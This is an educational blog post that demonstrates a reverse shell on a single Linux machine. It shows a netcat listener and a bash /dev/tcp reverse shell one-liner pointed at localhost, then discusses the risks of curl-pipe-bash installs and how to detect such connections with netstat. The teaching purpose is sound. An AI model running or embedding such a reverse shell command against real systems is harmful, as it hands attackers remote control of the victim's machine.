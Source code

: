 ```yaml
---
title: "What does a reverse shell actually look like?"
description: "Using basic Linux Bash commands to demonstrate a simple reverse shell."
tags:
  - networking
  - linux
  - bash
  - nc
  - security


---
```


A reverse shell is a type of shell where the target machine (under attack) communicates back to an attacker's machine, and importantly, gives the attacker control over the target machine. 

The attacker's machine will be listening on a port. A malicious script runs on the target machine, which connects back to the attacker's machine. The attacker's machine receives the connection. The attacker is then able to execute commands on the target machine.  

I'll create a simple example to demonstrate one to follow along with, it's just a few basic Linux Bash commands on the same machine. The simplicity of setting up a reverse shell is the reason why you should always be careful about what you run on your machine.

## Set up the listener

In one terminal window, setup a listener. Pretend that this is the attacker's machine.     

```bash
nc -lnvp 1337
```

Alternatively, you can run this in docker which does the same thing, it's your choice. 

```bash
docker run -it -p 1337:1337 --rm busybox:stable nc -lnvp 1337
```

Either way, the output should simply say "Listening on 0.0.0.0 1337". 


## Connect to the listener

Now in another terminal window, run this command to 'connect' to the listener. Pretend that this is the machine being compromised.  

```bash
/bin/bash --rcfile <(echo "PS1='omghacker: '") -i >& /dev/tcp/127.0.0.1/1337 0>&1
```

The `/bin/bash` starts a new shell.  
The `-i` makes it interactive.   
The `--rcfile` bit is just something I've added to make the prompt look different, but isn't necessary.
The `>& /dev/tcp/...` redirects the input and output to the listener by making use of the [`/dev/tcp` feature in Linux Bash](2024-07-28-networking-cheat-sheet.md#reach-a-port-on-a-server).  
The `0>&1` redirects both standard input and output to the listener.    

## What happens?

Nothing will happen in the second terminal window. But, go back to the first terminal window where the listener is running, and you should see a new prompt. It might look something like this.  

```
$ nc -lnvp 1337
Listening on 0.0.0.0 1337
Connection received on 127.0.0.1 39738
omghacker:
```

The `omghacker:` is the prompt from the "compromised machine". 

You can now try running commands against it. Try `ls`, `pwd`, `whoami`, etc.

![Reverse shell](/assets/images/simple-reverse-shell-in-linux-bash/001.png)



When you're done, just `exit` to close the connection.


## Why is this dangerous?

This demonstrates just how easy it is to set up a reverse shell; the danger is its simplicity. It's not just limited to Bash, it can be done in [several languages and environments](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/). 

The `whoami` command would have shown that it's the user running on the compromised machine, which means their permissions are the attacker's permissions. 

It's also one of the (many) reasons that `curl | bash` type installations, often seen when installing software, are frowned upon. Sadly, they are still widely used out of laziness, convenience, or simply ignorance, and it is pretty sad to see well established projects promoting this security risk. 

The best way to protect yourself from a reverse shell attack is to be careful about what you run on your machine. If you're running a script from the internet, make sure you understand what it does first, don't just blindly run it. 

For developers, it's important to be avoid trying to make OS calls from code, especially when passing user input directly to the command. Those situations should be avoided as much as possible. Bash is rich and powerful in the creativity it proffers, and so sanitisation is not really going to help that much.

For application deployments, this is one of the (many) reasons why containers are useful; they provide a level of isolation, and therefore a reduced blast radius if something goes wrong.  

Just for reference, the following command can show you all the established connections on your machine, with the process ID and command. 

```bash
netstat -pan | grep -i ESTABLISHED
```

Here is what the reverse shell example would look like. An established connection from bash should prompt you to investigate further.

```
tcp        0      0 127.0.0.1:49364         127.0.0.1:1337          ESTABLISHED 24449/bash 
```

Note: it's not a perfect way of detecting reverse shells though, there are ways of hiding the connection, and the connection isn't always active. Other tools like [Fenrir](https://github.com/Neo23x0/Fenrir) might help as well. 
